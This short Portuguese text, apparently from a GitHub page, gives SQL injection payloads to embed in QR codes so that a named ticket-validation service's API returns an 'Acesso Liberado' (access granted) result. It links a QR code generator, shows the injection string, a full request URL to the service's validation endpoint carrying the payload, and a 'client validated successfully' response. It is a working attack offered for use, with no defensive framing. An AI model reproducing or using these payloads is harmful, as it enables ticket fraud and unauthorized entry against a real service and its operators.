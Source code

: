Link para gerar qr code: https://www.qrplus.com.br/

','a');(select 'verde|Acesso Liberado|'AS retorno)--


Código para injetar no QRcode.
','admin');(select 'verde|Acesso Liberado|' AS retorno); -- Cliente validado com sucesso! ticketsimples


https://api.ticketsimples.com/ticketsimples/api_v2/webservice/endpoint.php/valida_ingresso/admin/136613641366','admin'); (select 'verde|Acesso Liberado|' AS retorno); -- Cliente validado com sucesso! ticketsimples



O evento  1275 nao teve registro encontrado na tabela usuario_vallidacao_evento